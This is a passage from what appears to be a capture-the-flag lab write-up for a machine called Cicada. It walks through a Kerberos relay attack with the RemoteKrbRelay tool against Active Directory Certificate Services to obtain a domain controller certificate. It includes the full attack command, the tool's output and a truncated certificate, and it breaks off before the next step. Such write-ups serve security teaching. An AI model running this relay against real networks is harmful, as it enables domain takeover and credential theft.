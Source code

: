 The attack has been automated in [KrbRemoteRelay](https://github.com/CICADA8-Research/RemoteKrbRelay) by Cicada8 Research (hence the name of the machine). Since this runs on Windows and we only have one target machine available, we'll use a Windows VM to perform the attack.

Since the machine account quota is 10, you could domain join your own Windows VM to run it, but it's also sufficient to get a TGT & RPCSS TGS, inject it on a non-domain joined windows machine and then run the tool.

For the domain joined way, connect to the VPN and then make sure to set the DNS entry to the Cicada DC. It's important to keep IPv6 enabled in the adapter or enable if its not yet the case.

Then join the machine to the domain using the credentials of Rosie Powell. After a restart, you can run the tool to get a certificate for the domain controller:

```
RemoteKrbRelay.exe -adcs -template DomainController -victim dc-jpq225.cicada.vl -target dc-jpq225.cicada.vl -clsid d99e6e74-fc88-11d0-b498-00a0c90312f3

                            /\_/\____,
                  ,___/\_/\ \  ~     /
                  \     ~  \ )   XXX
                    XXX     /    /\_/\___,
                       \o-o/-o-o/   ~    /
                        ) /     \    XXX
                       _|    / \ \_/
                    ,-/   _  \_/   \
                   / (   /____,__|  )
                  (  |_ (    )  \) _|
                 _/ _)   \   \__/   (_
                (,-(,(,(,/      \,),),)

                CICADA8 Research Team
                From Michael Zhmaylo (MzHmO)
[+] Setting UP Rogue COM at port 12345
[+] Registering...
[+] Register success
[+] Forcing Authentication
[+] Using CLSID: d99e6e74-fc88-11d0-b498-00a0c90312f3
[*] apReq: 6082071f06...
[+] Got Krb Auth from NT/System. Relaying to ADCS now...
[*] AcceptSecurityContext: SEC_I_CONTINUE_NEEDED
[*] fContextReq: Delegate, MutualAuth, ReplayDetect, SequenceDetect, Confidentiality, UseDceStyle, Connection
[+] Received Kerberos Auth from dc-jpq225.cicada.vl with ticket on http/dc-jpq225.cicada.vl
[*] apRep2: 6f5b305...
[+] HTTP session established
[+] Cookie ASPSESSIONIDSSDRDQTA=IHPNGIODCGPMFFNKEE...; path=/
[+] Lets get certificate for "cicada.vl\dc-jpq225$" using "DomainController" template
[+] Success (ReqID: 17)
[+] Certificate in PKCS12: MIACAQ...
```

Save the resulting base64-encoded certificate on your Linux VM and swap back the VPN:
